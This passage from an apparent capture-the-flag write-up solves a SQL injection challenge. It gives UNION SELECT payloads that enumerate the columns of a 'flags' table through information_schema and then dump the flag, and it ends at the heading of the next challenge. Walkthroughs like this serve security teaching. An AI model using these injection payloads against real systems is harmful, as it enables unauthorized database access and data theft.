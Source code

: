 From this result, we can kinda know that the flag will be in the table `flags` from the database `GRIMM`. Let's checkout all the columns in that table.

```
' UNION SELECT table_name, column_name, 3 from information_schema.columns WHERE table_name = 'flags';#
```

![100-union-3](/assets/img/GRIMM-hax-combined/6.PNG)

There are 2 columns in this table namely `id` and `flag`. Let's select all the data in this table to obtain the flag.

```
' UNION SELECT id, flag, 1337 FROM GRIMM.flags;#
```

![100-union-4](/assets/img/GRIMM-hax-combined/7.PNG)

And the flag is `GRIMM-SQL-INJECT`.

## Protected Files (200pts)
